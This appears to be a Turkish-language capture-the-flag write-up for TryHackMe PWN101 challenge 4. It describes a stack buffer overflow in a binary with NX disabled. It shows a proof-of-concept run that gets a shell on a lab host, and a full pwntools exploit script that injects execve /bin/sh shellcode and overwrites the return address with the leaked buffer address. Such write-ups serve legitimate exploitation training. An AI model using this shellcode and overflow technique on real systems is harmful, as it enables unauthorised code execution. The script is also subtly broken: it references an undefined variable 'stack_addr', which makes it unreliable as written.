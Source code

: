 # TryHackMe PWN101

## Challenge 4

### Dosya
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
Dosya 64 bitlik bir ELF dosyası.

Dosyada NX disabled bilgisi var. NX disabled olduğu icin stack üzerinde kod çalıştırabiliriz.

```
$ ./pwn104 
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 104          

I think I have some super powers 💪
especially executable powers 😎💥

Can we go for a fight? 😏💪
I'm waiting for you at 0x7ffd43904f20
```

dosyayı çalıştırdığımızda bize bir adres veriyor. Bu adres bizim buffer'ımızın adresi olacak.

Dosyanın assembly koduna baktığmızda 0x50 byte'lik bir stack olduğunu görebiliyoruz, bu byte'lardan sonra 8 byte'lık RBP ve 8 byte'lik RET ADDR olacak.

```asm
0x00000000004011d1 <+4>:     sub    $0x50,%rsp
```

Ayrıca programı decompile ettiğimizde 'read' ile okunan byte sayısının 200 olduğunu görüyoruz. Bu da 0x50 byte sonrasıdaki byte'ları da değiştirebileceğimiz anlamına geliyor.

```c
read(0, &buf, 200);
```

### Exploit

Program bizden girdi istediğinde önce shellcode'mizi gireceğiz, ondan sonra buffer'ı 0x50 byte olana kadar doldurup sonrasında RBP ve RET ADDR'ı değiştireceğiz.

RBP olarak ne girdiğimizin önemi olmayacak ama RET ADDR olarak programın en başta bize verdiği buffer'ımızın adresini gireceğiz ve program shellcode'muzu olduğu yere gidecek. 

### POC

```bash
$ ./exploit.py remote 10.10.230.167 9004
[+] Opening connection to 10.10.230.167 on port 9004: Done
[*] Address of the buffer: 0x7ffd08710c10
[*] Sending Payload.
[*] Getting Flag
[+] Flag achieved!: THM{[REDACTED]}
[+] Getting Shell.
[*] Switching to interactive mode
$ id
uid=1005(pwn104) gid=1005(pwn104) groups=1005(pwn104)
```

### Python Script

```python
#!/bin/env python3

from pwn import *
import argparse

parser = argparse.ArgumentParser(description='TryHackMe PWN101 Challange 4 Exploit')

subparsers = parser.add_subparsers(dest='mode', help='Select mode: remote or local')

remote_parser = subparsers.add_parser('remote', help='Remote mode: Provide IP address and port')
remote_parser.add_argument('ip', help='IP address')
remote_parser.add_argument('port', help='Port number')

local_parser = subparsers.add_parser('local', help='Local mode: Provide file path')
local_parser.add_argument('file', help='File path')

args = parser.parse_args()

mode = args.mode

if mode == 'remote':
    ip = args.ip
    port = args.port
    p = remote(ip, port)
elif mode == 'local':
    file = args.file
    context.binary = binary = ELF(file)
    p = process()
else:
    parser.error('Please select remote or local mode.')
    
p.recvuntil(b"for you at ")
buffer_addr = p.recv().decode()
log.info("Address of buffer: " + stack_addr)

shell_code = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"

payload = b''.join([
    shell_code,
    b'A'*(0x50 - len(shell_code)),
    b'B'*0x8,
    p64(int(buffer_addr, 16))
    ])

log.info("Sending Payload.")
p.sendline(payload)

log.info("Getting Flag")
p.sendline(b"cat flag.txt")
flag = p.recv().decode()

log.success("Flag achieved!: " + flag)

log.success("Getting Shell.")
p.interactive()
```
